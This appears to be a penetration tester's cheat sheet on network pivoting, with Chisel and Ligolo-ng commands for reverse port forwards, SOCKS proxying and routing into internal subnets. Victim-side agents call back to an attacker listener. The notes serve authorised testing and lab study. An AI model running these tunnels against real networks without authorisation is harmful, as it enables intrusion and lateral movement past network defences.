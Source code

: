 ### Chisel
https://github.com/jpillora/chisel/releases
```bash
./chisel_1.9.0_linux_amd64 server -p 2345 --reverse
.\chisel.exe client --max-retry-count 2 192.168.45.157:2345 R:80:172.16.118.241:80 R:445:172.16.118.241:445

# Dynamic
./chisel_1.9.0_linux_amd64 server -p 2345 --socks5 --reverse
./chisel_1.9.0_linux_amd64 client --max-retry-count 2 192.168.49.100:2345 R:socks

#Listening fowarding
./chisel_1.9.0_linux_amd64 server -p 2345 
.\chisel.exe client --max-retry-count 2 192.168.45.184:2345 1337:127.0.0.1:80

# tail /etc/proxychains4.conf
[ProxyList]
socks5 127.0.0.1 1080

# stop chisel
Stop-Process -Name chisel -Force
```
### Ligolo-ng
https://github.com/nicocha30/ligolo-ng/releases
```bash
# file
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.1/ligolo-ng_proxy_0.8.1_linux_amd64.tar.gz
tar -zxvf ligolo-ng_proxy_0.8.1_linux_amd64.tar.gz

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.1/ligolo-ng_agent_0.8.1_linux_amd64.tar.gz
tar -zxvf ligolo-ng_agent_0.8.1_linux_amd64.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.1/ligolo-ng_agent_0.8.1_windows_amd64.zip
unzip ligolo-ng_agent_0.8.1_windows_amd64.zip

sudo ./proxy -selfcert -laddr 0.0.0.0:2345

./agent -connect 192.168.45.10:2345 -ignore-cert
.\agent.exe -connect 192.168.45.10:2345 -ignore-cert

session 
session : 1

interface_create --name ligolo
tunnel_start --tun ligolo
ifconfig 

sudo ip route add 172.16.0.0/16 dev ligolo
sudo ip route delete 172.16.0.0/16 dev ligolo
ip route

# Transport Kali Web
listener_add --addr 0.0.0.0:8888 --to 127.0.0.1:80 --tcp
listener_add --addr 0.0.0.0:2345 --to 127.0.0.1:80 --tcp
listener_list

# delete int
sudo ip link set dev ligolo down
sudo ip link delete ligolo
```
